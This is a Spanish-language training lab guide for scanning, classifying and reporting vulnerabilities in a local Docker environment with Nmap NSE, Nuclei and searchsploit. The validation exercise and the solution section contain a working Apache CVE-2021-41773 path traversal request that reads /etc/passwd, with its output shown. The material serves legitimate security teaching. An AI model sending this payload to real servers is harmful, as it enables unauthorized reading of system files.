

::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulada, comandos reales y tracking de progreso.

👉 [**Abrir Lab Interactivo — Sin Docker**](/CyberDefense-Pro-Network/labs-interactive/lab-vulnscan-01.html)

:::


# 🛡️ Lab vulnscan-01: Análisis de Vulnerabilidades

> Escanea, clasifica y documenta vulnerabilidades usando Nuclei, Nmap NSE y searchsploit con metodología CVSS/CIA.

## 📊 Diagrama del Escenario



## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:

- [ ] Ejecutar escaneo de vulnerabilidades con Nuclei
- [ ] Usar scripts Nmap NSE para detección de CVEs
- [ ] Buscar exploits en Exploit-DB con searchsploit
- [ ] Calcular severidad con CVSS v3.1
- [ ] Clasificar hallazgos por la tríada CIA
- [ ] Generar un informe de vulnerabilidades profesional

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 60 minutos |
| **XP en juego** | 300 puntos |
| **Herramientas** | nuclei, nmap, searchsploit, curl |
| **Flags** | 6 |

## 🚀 Inicio Rápido

```bash
# Levantar el entorno
cd labs/intermedio/vulnscan-01
docker compose up -d

# Obtener shell en Kali
docker compose exec kali bash

# Actualizar templates de Nuclei
nuclei -update-templates
```

## 📋 Ejercicios

### Ejercicio 1: Escaneo Nmap con Scripts NSE (50 XP)

**Objetivo:** Detectar vulnerabilidades usando scripts NSE de Nmap.

```bash
# Escaneo de vulnerabilidades con NSE
nmap -sV --script vuln 10.0.3.0/24 -oN nmap_vuln.txt

# Scripts específicos
nmap --script http-vuln-cve2017-5638 -p 80 10.0.3.10
nmap --script ssl-heartbleed -p 443 10.0.3.10
nmap --script mysql-info -p 3306 10.0.3.30

# Detección de software obsoleto
nmap --script http-generator -p 80 10.0.3.10
```

**Preguntas:**
1. ¿Cuántas vulnerabilidades encontró Nmap NSE? `[___]`
2. ¿Cuáles son los CVEs más críticos? `[___]`
3. ¿Qué software obsoleto detectaste? `[___]`

**Flag:** `[___]`

---

### Ejercicio 2: Escaneo con Nuclei (60 XP)

**Objetivo:** Usar Nuclei para escaneo automatizado de vulnerabilidades.

```bash
# Escaneo básico
nuclei -u http://10.0.3.10 -o nuclei_results.txt

# Escaneo por severidad
nuclei -u http://10.0.3.10 -severity critical,high -o nuclei_critical.txt

# Escaneo de tecnologías
nuclei -u http://10.0.3.10 -tags tech

# Escaneo completo de la red
nuclei -l targets.txt -o nuclei_full.txt

# Crear lista de targets
echo "http://10.0.3.10" > targets.txt
echo "http://10.0.3.20" >> targets.txt
```

**Preguntas:**
1. ¿Cuántos templates ejecutó Nuclei? `[___]`
2. ¿Cuántas vulnerabilidades de severidad CRITICAL? `[___]`
3. ¿Qué tecnologías detectó? `[___]`

**Flag:** `[___]`

---

### Ejercicio 3: Searchsploit (50 XP)

**Objetivo:** Buscar exploits públicos para las vulnerabilidades encontradas.

```bash
# Buscar por software
searchsploit apache 2.4.49
searchsploit nginx 1.18
searchsploit mysql 5.7
searchsploit openssh 7.2

# Buscar por CVE
searchsploit CVE-2021-41773
searchsploit CVE-2021-42013

# Buscar por tipo
searchsploit --type php
searchsploit --type remote

# Exportar resultados
searchsploit -w apache 2.4.49 > searchsploit_results.md
```

**Preguntas:**
1. ¿Cuántos exploits encontraste para Apache 2.4.49? `[___]`
2. ¿Cuáles son los más relevantes? `[___]`
3. ¿Hay exploits de tipo "Remote Code Execution"? `[Sí/No]`

**Flag:** `[___]`

---

### Ejercicio 4: Clasificación CIA + CVSS (60 XP)

**Objetivo:** Clasificar cada vulnerabilidad usando la tríada CIA y CVSS v3.1.

```markdown
| # | Vulnerabilidad | CVE | CIA Impact | CVSS | Severidad |
|---|---------------|-----|-----------|------|-----------|
| 1 | Apache Path Traversal | CVE-2021-41773 | C:I | 9.8 | CRÍTICA |
| 2 | [Identificar] | [___] | [___] | [___] | [___] |
| 3 | [Identificar] | [___] | [___] | [___] | [___] |
| 4 | [Identificar] | [___] | [___] | [___] | [___] |
```

**Recursos CVSS:**
- https://www.first.org/cvss/calculator/3.1

**Preguntas:**
1. ¿Cuántas vulnerabilidades CRÍTICAS encontraste? `[___]`
2. ¿Cuáles impactan la Confidencialidad? `[___]`
3. ¿Cuáles impactan la Disponibilidad? `[___]`

**Flag:** `[___]`

---

### Ejercicio 5: Validación de Vulnerabilidades (40 XP)

**Objetivo:** Confirmar que las vulnerabilidades son explotables.

```bash
# Probar Path Traversal (Apache)
curl "http://10.0.3.10/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"

# Problema de configuración
curl "http://10.0.3.10/server-status"
curl "http://10.0.3.10/phpinfo.php"

# Enumeración de directorios
gobuster dir -u http://10.0.3.10 -w /usr/share/wordlists/dirb/common.txt -x php,bak,old

# Verificar versión vulnerable
curl -I http://10.0.3.10 | grep -i server
```

**Preguntas:**
1. ¿Pudiste confirmar el Path Traversal? `[Sí/No]`
2. ¿Qué archivos sensibles encontraste? `[___]`
3. ¿Qué directorios ocultos hay? `[___]`

**Flag:** `[___]`

---

### Ejercicio 6: Informe de Vulnerabilidades (40 XP)

**Objetivo:** Crear un informe profesional de vulnerabilidades.

Crea `vuln_report.md`:

```markdown
# Informe de Análisis de Vulnerabilidades

## Resumen Ejecutivo
- Total de vulnerabilidades: [___]
- Críticas: [___] | Altas: [___] | Medias: [___] | Bajas: [___]
- Riesgo general: [___]

## Metodología
- Escaneo automatizado: Nuclei, Nmap NSE
- Validación manual: curl, gobuster
- Clasificación: CVSS v3.1 + CIA

## Vulnerabilidades Detalladas

### [VULN-001] Apache Path Traversal
- **CVE:** CVE-2021-41773
- **CVSS:** 9.8 (CRÍTICO)
- **CIA:** Confidencialidad, Integridad
- **Descripción:** [___]
- **Evidencia:** [___]
- **Remediación:** [___]

[Repetir para cada vulnerabilidad]

## Plan de Remediación
| Prioridad | Vulnerabilidad | Acción | Plazo |
|-----------|---------------|--------|-------|
| P1 | [___] | [___] | 24h |
| P2 | [___] | [___] | 7 días |
| P3 | [___] | [___] | 30 días |
```

**Flag:** `[___]`

## 🏁 Validación

```bash
./scripts/validate.sh
```

## 📝 Criterios de Éxito

| Ejercicio | Criterio | Puntos | Estado |
|-----------|----------|--------|--------|
| 1 | Nmap NSE ejecutado | 50 | ⬜ |
| 2 | Nuclei ejecutado | 60 | ⬜ |
| 3 | Searchsploit usado | 50 | ⬜ |
| 4 | CIA + CVSS aplicados | 60 | ⬜ |
| 5 | Vulnerabilidades validadas | 40 | ⬜ |
| 6 | Informe profesional | 40 | ⬜ |
| **Total** | | **300** | ⬜ |

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### Nmap NSE
```
nmap -sV --script vuln 10.0.3.0/24
# Apache Path Traversal (CVE-2021-41773)
# PHP obsoleto (7.2.x EOL)
# MySQL 5.7 con credenciales débiles
```

### Nuclei
```
nuclei -u http://10.0.3.10 -severity critical,high
# [critical] apache-path-traversal
# [high] php-exposed
# [medium] server-status-exposed
```

### Searchsploit
```
searchsploit apache 2.4.49
# Path Traversal/RCE (49406)
```

### Validación
```
curl "http://10.0.3.10/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
# root:x:0:0:root:/root:/bin/bash
```

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
